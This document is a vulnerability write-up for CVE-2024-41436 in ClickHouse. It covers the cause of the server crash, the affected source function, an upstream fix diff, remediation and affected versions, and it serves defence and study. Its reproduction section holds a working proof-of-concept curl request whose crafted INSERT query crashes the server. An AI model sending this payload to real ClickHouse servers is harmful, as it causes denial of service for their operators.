



# CVE-2024-41436 CWE-120 ClickHouse buffer overflow

## Vulnerability Background
- **ClickHouse :** An open-source columnar database management system designed specifically for online analytical processing (OLAP) scenarios, capable of efficiently handling large-scale data queries and analysis tasks. It offers high-performance data compression and parallel computing capabilities, supporting fast queries and real-time analysis of large-scale datasets. ClickHouse's architecture supports distributed computing, allowing it to scale across multiple nodes and provide high availability and fault tolerance in big data environments. Thanks to its fast query performance and scalability, ClickHouse excels in handling big data analytics, log analysis, data warehousing, and other application scenarios.

## Vulnerability Mechanism
`DB::evaluateConstantExpressionImpl` unconditionally used the legacy analyzer while evaluating expressions embedded in an `INSERT ... VALUES` statement. A crafted expression containing a scalar subquery over a distributed table could therefore reach query-tree state that the legacy path had not initialized. The upstream reproducer terminates the server with a null-pointer read in the analyzer/query-planning stack. Although the CVE record classifies the issue as a buffer overflow, the public ClickHouse crash trace demonstrates denial of service through a null-pointer segmentation fault; public evidence does not establish remote code execution.

## Vulnerability Location
Analysis of ClickHouse-24.3.3.102 source code:

In the ClickHouse/src/Interpreters/evaluateConstantExpression.cpp file, line 50 evaluateConstantExpressionImpl is used to evaluate a constant expression that accepts a `AST` node (usually part of an SQL statement) and a context, and returns a `std::optional` containing the result of the constant expression.

On lines 78 and 87, the function always relies on the legacy `TreeRewriter` and `ExpressionAnalyzer`. With the new analyzer enabled elsewhere in the request, this mixed state can leave the query tree unavailable to code reached while evaluating the scalar subquery. The public crash report shows the failing path through `StorageDistributed::read()`, `InterpreterSelectQuery`, `ExecuteScalarSubqueriesMatcher`, and `evaluateConstantExpressionImpl()`.

```cpp
// evaluateConstantExpression.cpp File, line 50
std::optional<EvaluateConstantExpressionResult> evaluateConstantExpressionImpl(const ASTPtr & node, const ContextPtr & context, bool no_throw)
{
    if (ASTLiteral * literal = node->as<ASTLiteral>())
        return getFieldAndDataTypeFromLiteral(literal);

    NamesAndTypesList source_columns = {{ "_dummy", std::make_shared<DataTypeUInt8>() }};

    auto ast = node->clone();

    if (ast->as<ASTSubquery>() != nullptr)
    {
        ast->setAlias("constant_expression");
    }

    ReplaceQueryParameterVisitor param_visitor(context->getQueryParameters());
    param_visitor.visit(ast);

    if (context->getClientInfo().query_kind != ClientInfo::QueryKind::SECONDARY_QUERY && context->getSettingsRef().normalize_function_names)
        FunctionNameNormalizer().visit(ast.get());

    // 78 lines **********
    auto syntax_result = TreeRewriter(context, no_throw).analyze(ast, source_columns);
    if (!syntax_result)
        return {};

    if (ASTLiteral * literal = ast->as<ASTLiteral>())
        return getFieldAndDataTypeFromLiteral(literal);

    // 87 lines **********
    auto actions = ExpressionAnalyzer(ast, syntax_result, context).getConstActionsDAG();

    ColumnPtr result_column;
    DataTypePtr result_type;
    String result_name = ast->getColumnName();
    for (const auto & action_node : actions->getOutputs())
    {
        if ((action_node->result_name == result_name) && action_node->column)
        {
            result_column = action_node->column;
            result_type = action_node->result_type;
            break;
        }
    }

    if (!result_column)
        throw Exception(ErrorCodes::BAD_ARGUMENTS,
                        "Element of set in IN, VALUES, or LIMIT, or aggregate function parameter, or a table function argument "
                        "is not a constant expression (result column not found): {}", result_name);

    if (result_column->empty())
        throw Exception(ErrorCodes::LOGICAL_ERROR,
                        "Empty result column after evaluation "
                        "of constant expression for IN, VALUES, or LIMIT, or aggregate function parameter, or a table function argument");

    /// Expressions like rand() or now() are not constant
    if (!isColumnConst(*result_column))
        throw Exception(ErrorCodes::BAD_ARGUMENTS,
                        "Element of set in IN, VALUES, or LIMIT, or aggregate function parameter, or a table function argument "
                        "is not a constant expression (result column is not const): {}", result_name);

    return std::make_pair((*result_column)[0], result_type);
}
```

## Remediation

Upgrade to a current maintained ClickHouse release. Upstream reproduced the crash in 24.3.3.102 and 24.5.3.5, then confirmed that it no longer reproduced on a 24.9.1.1 development build after the analyzer changes, including pull request 66912. Because the CVE record does not publish a complete fixed-version matrix, do not treat 24.9.1.1 as a formally established first-fixed boundary.

The code change shown below makes constant-expression evaluation honor `allow_experimental_analyzer` and use the analyzer-compatible query path. Until upgraded, restrict the MySQL, HTTP, and native interfaces to trusted clients and reject untrusted `INSERT ... VALUES` expressions containing scalar subqueries over distributed tables.

```diff
diff --git a/src/Interpreters/evaluateConstantExpression.cpp b/src/Interpreters/evaluateConstantExpression.cpp
index 4e1a2bcf5ee4..60c62665592e 100644
--- a/src/Interpreters/evaluateConstantExpression.cpp
+++ b/src/Interpreters/evaluateConstantExpression.cpp
@@ -13,6 +13,7 @@
 #include <Interpreters/Context.h>
 #include <Interpreters/castColumn.h>
 #include <Interpreters/convertFieldToType.h>
+#include <Interpreters/InterpreterSelectQueryAnalyzer.h>
 #include <Interpreters/ExpressionAnalyzer.h>
 #include <Interpreters/FunctionNameNormalizer.h>
 #include <Interpreters/ReplaceQueryParameterVisitor.h>
@@ -21,7 +22,9 @@
 #include <Parsers/ASTIdentifier.h>
 #include <Parsers/ASTLiteral.h>
 #include <Parsers/ASTSubquery.h>
+#include <Parsers/ASTSelectQuery.h>
 #include <Processors/QueryPlan/Optimizations/actionsDAGUtils.h>
+#include <Processors/Executors/PullingPipelineExecutor.h>
 #include <Storages/MergeTree/KeyCondition.h>
 #include <TableFunctions/TableFunctionFactory.h>
 #include <unordered_map>
@@ -69,53 +72,82 @@ std::optional<EvaluateConstantExpressionResult> evaluateConstantExpressionImpl(c
     ReplaceQueryParameterVisitor param_visitor(context->getQueryParameters());
     param_visitor.visit(ast);
 
-    /// Notice: function name normalization is disabled when it's a secondary query, because queries are either
-    /// already normalized on initiator node, or not normalized and should remain unnormalized for
-    /// compatibility.
-    if (context->getClientInfo().query_kind != ClientInfo::QueryKind::SECONDARY_QUERY && context->getSettingsRef().normalize_function_names)
-        FunctionNameNormalizer::visit(ast.get());
+    if (context->getSettingsRef().allow_experimental_analyzer)
+    {
+        ASTPtr new_ast = std::make_shared<ASTSelectQuery>();
+        auto *ast_as_select = new_ast->as<ASTSelectQuery>();
 
-    auto syntax_result = TreeRewriter(context, no_throw).analyze(ast, source_columns);
-    if (!syntax_result)
-        return {};
+        auto expr_list = std::make_shared<ASTExpressionList>();
+        expr_list->children.push_back(ast->clone());
 
-    /// AST potentially could be transformed to literal during TreeRewriter analyze.
-    /// For example if we have SQL user defined function that return literal AS subquery.
-    if (ASTLiteral * literal = ast->as<ASTLiteral>())
-        return getFieldAndDataTypeFromLiteral(literal);
+        ast_as_select->setExpression(ASTSelectQuery::Expression::SELECT, expr_list);
+
+        InterpreterSelectQueryAnalyzer interpreter(ast_as_select->clone(), context, SelectQueryOptions());
+        auto io = interpreter.execute();
 
-    auto actions = ExpressionAnalyzer(ast, syntax_result, context).getConstActionsDAG();
+        PullingPipelineExecutor executor(io.pipeline);
+        Block block;
 
-    ColumnPtr result_column;
-    DataTypePtr result_type;
-    String result_name = ast->getColumnName();
-    for (const auto & action_node : actions->getOutputs())
+        executor.pull(block);
+
+        ColumnPtr result_column;
+        DataTypePtr result_type;
+
+        auto & column = block.safeGetByPosition(0);
+        auto type = column.type;
+
+        return std::make_pair((*column.column)[0], type);
+    }
+    else
     {
-        if ((action_node->result_name == result_name) && action_node->column)
+        /// Notice: function name normalization is disabled when it's a secondary query, because queries are either
+        /// already normalized on initiator node, or not normalized and should remain unnormalized for
+        /// compatibility.
+        if (context->getClientInfo().query_kind != ClientInfo::QueryKind::SECONDARY_QUERY && context->getSettingsRef().normalize_function_names)
+            FunctionNameNormalizer::visit(ast.get());
+
+        auto syntax_result = TreeRewriter(context, no_throw).analyze(ast, source_columns);
+        if (!syntax_result)
+            return {};
+
+        /// AST potentially could be transformed to literal during TreeRewriter analyze.
+        /// For example if we have SQL user defined function that return literal AS subquery.
+        if (ASTLiteral * literal = ast->as<ASTLiteral>())
+            return getFieldAndDataTypeFromLiteral(literal);
+
+        auto actions = ExpressionAnalyzer(ast, syntax_result, context).getConstActionsDAG();
+
+        ColumnPtr result_column;
+        DataTypePtr result_type;
+        String result_name = ast->getColumnName();
+        for (const auto & action_node : actions->getOutputs())
         {
-            result_column = action_node->column;
-            result_type = action_node->result_type;
-            break;
+            if ((action_node->result_name == result_name) && action_node->column)
+            {
+                result_column = action_node->column;
+                result_type = action_node->result_type;
+                break;
+            }
         }
-    }
```

## Affected Versions

The CVE record explicitly identifies ClickHouse 24.3.3.102. The upstream issue also reproduces the same crash on 24.5.3.5. A complete affected-version range was not published, so other releases between the introduction of the analyzer mismatch and the upstream fix should be treated as potentially affected.

## Environment Setup
Starting the Docker environment, ClickHouse version is 24.3.3.102, with a single-node cluster default, and ClickHouse's static IP is 10.0.7.1

```txt
CNA:CISA-ADP  Base Score:7.5 HIGH  Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:clickhouse:clickhouse:24.3.3.102:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line to connect to ClickHouse and execute the data initialization script

```bash
   docker exec -i clickhouse-24.3.3.102 clickhouse-client --multiquery < ./PoC/init-data.sql
   ```



2. Use the curl command to send a POST request to ClickHouse's static IP and perform the INSERT operation. You will see that the server has not returned any information. Using the command to check the container status, you can see that only zookeeper is running, while ClickHouse crashes and does not run

```bash
   curl -XPOST -H'Content-Length:0' 'http://10.0.7.1:8123/?query=insert%20into%20ch_main.t_m%20%28c_mpcnr33%2C%20c_v8s%2C%20c_l%2C%20c_jismi1%2C%20c_p37t64z75%2C%20c_uz%2C%20c_rp%2C%20c_d56dwp13jp%2C%20c_sf__xnd4%29%20values%0A%28868701807%2C%20coalesce%28%28select%20c_u3xs92nr4c%20from%20ch_main.t_nh1w%20order%20by%20c_u3xs92nr4c%20limit%201%20offset%206%29%0A%20%20%2C%20%27llwlzwb3%27%29%2C%201824351772%2C%20coalesce%28MACNumToString%28lcm%28-3%2C%20-6%29%29%2C%20%27f%27%29%29%3B'
   ```



## PoC Analysis
The request places a scalar subquery over a distributed table inside an `INSERT ... VALUES` expression. Affected builds route constant-expression evaluation through legacy analyzer state that is not initialized for this query tree, producing the null-pointer crash shown in the upstream trace. The public reproducer demonstrates denial of service, not the buffer overflow or RCE sometimes claimed by secondary reports.
## References
[NVD - CVE-2024-41436](https://nvd.nist.gov/vuln/detail/CVE-2024-41436)

[Upstream crash report and reproducer: ClickHouse issue #65520](https://github.com/ClickHouse/ClickHouse/issues/65520)

[Analyzer-related fix: ClickHouse pull request #66912](https://github.com/ClickHouse/ClickHouse/pull/66912)

[Original CVE reproducer](https://gist.github.com/ycybfhb/db127ae9d105a4d20edc9f010a959016)
